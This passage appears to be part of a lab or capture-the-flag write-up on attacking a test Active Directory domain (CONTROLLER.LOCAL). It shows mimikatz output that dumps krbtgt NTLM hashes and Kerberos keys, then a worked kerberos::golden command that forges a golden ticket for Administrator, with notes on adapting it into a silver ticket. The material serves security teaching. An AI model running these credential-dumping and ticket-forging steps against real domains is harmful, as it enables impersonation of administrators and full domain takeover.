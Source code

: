 ```bash
    24  96141c5119871bfb2a29c7ea7f0facef
    25  f9e06fa832311bd00a07323980819074
    26  99d1dd6629056af22d1aea639398825b
    27  919f61b2c84eb1ff8d49ddc7871ab9e0
    28  d5c266414ac9496e0e66ddcac2cbcc3b
    29  aae5e850f950ef83a371abda478e05db

 * Kerberos
    Default Salt : CONTROLLER.LOCALkrbtgt
    Credentials
      des_cbc_md5       : 79bf07137a8a6b8f

 * Kerberos-Newer-Keys
    Default Salt : CONTROLLER.LOCALkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : dfb518984a8965ca7504d6d5fb1cbab56d444c58ddff6c193b64fe6b6acf1033
      aes128_hmac       (4096) : 88cc87377b02a885b84fe7050f336d9b
      des_cbc_md5       (4096) : 79bf07137a8a6b8f

 * NTLM-Strong-NTOWF
    Random Value : 4b9102d709aada4d56a27b6c3cd14223

```

### Create a Golden/Silver Ticket 

1. `Kerberos::golden /user:Administrator /domain:controller.local /sid: /krbtgt: /id:` – This is the command for creating a golden ticket to create a silver ticket simply put a service NTLM hash into the krbtgt slot, the sid of the service account into sid, and change the id to 1103.

I’ll show you a demo of creating a golden ticket it is up to you to create a silver ticket.

```
mimikatz # kerberos::golden /user:Administrator /domain:CONTROLLER.LOCAL /sid:S-1-5-21-432953485-3795405108-1502158860 /krbtgt:72cd714611b64cd4d5550cd2759db3
f6 /id:500
User      : Administrator 
Domain    : CONTROLLER.LOCAL (CONTROLLER)
SID       : S-1-5-21-432953485-3795405108-1502158860
User Id   : 500
Groups Id : *513 512 520 518 519
ServiceKey: 72cd714611b64cd4d5550cd2759db3f6 - rc4_hmac_nt
Lifetime  : 6/30/2021 7:54:08 AM ; 6/28/2031 7:54:08 AM ; 6/28/2031 7:54:08 AM
-> Ticket : ticket.kirbi

 * PAC generated 
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Final Ticket Saved to file !
```
